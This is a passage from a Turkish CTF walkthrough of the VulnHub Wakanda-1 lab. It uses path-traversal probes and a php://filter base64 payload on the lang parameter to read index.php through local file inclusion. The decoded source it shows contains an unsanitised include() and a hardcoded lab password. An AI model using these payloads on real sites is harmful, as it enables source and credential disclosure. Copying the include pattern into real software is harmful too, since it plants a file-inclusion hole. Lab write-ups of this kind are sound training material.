 Siteyi ve sitenin kaynak kodunu incelediğimizde ilginç bi şey farkediyoruz.

```text
<!-- <a class="nav-link active" href="?lang=fr">Fr/a> -->
```

Yorum satırı haline getirilmiş. Bunu kullanmamız gerek. Siteye `http://192.168.56.101/index.php?lang=fr` şeklinde girdiğimizde sitenin dili değişiyor. Bu parametrenin dizin için kullanılıp kullanılmadığını kontrol etmeye çalışalım.

```text
http://192.168.56.101/index.php?lang=../
http://192.168.56.101/index.php?lang=index
http://192.168.56.101/index.php?lang=../../
http://192.168.56.101/index.php?lang=index.php
http://192.168.56.101/index.php?lang=fr
http://192.168.56.101/index.php?lang=fr.php
```

Bu şekilde verinin bir dosyadan çektiğini anlıyoruz. Muhtemelen dosyanın sadece ismini alıyor ve uzantısını kendiki ekliyor. Şu şekilde bir kod ile dosyalara ulaşabiliriz.

```text
http://192.168.56.101/index.php?lang=php://filter/convert.base64-encode/resource=index
```

Bu LFI (local file inclusion) açığıdır. Daha ayrıntılı bilgi için [buraya](https://github.com/lucyoa/ctf-wiki/tree/master/web/file-inclusion) tıklayabilirsiniz.

Buradan `index.php` sayfasının php kodunu çekeriz. Bu kodlar base64 ile kodlanmıştır. Bunu terminalden `base64 -d` komutu ile yada herhangi bir internet sitesi üzerinden decode edebilirsiniz. Decode ettikten sonra sayfanın kaynak kodunu incelersek şu şekilde bir kaç satır ile karşılaşırız.

```php
<?php
$password ="Niamey4Ever227!!!" ;//I have to remember it

if (isset($_GET['lang']))
{
include($_GET['lang'].".php");
}

?>
```

![resim](/assets/ctf/vulnhub/resimler/wakanda-1/wakanda-3.png)
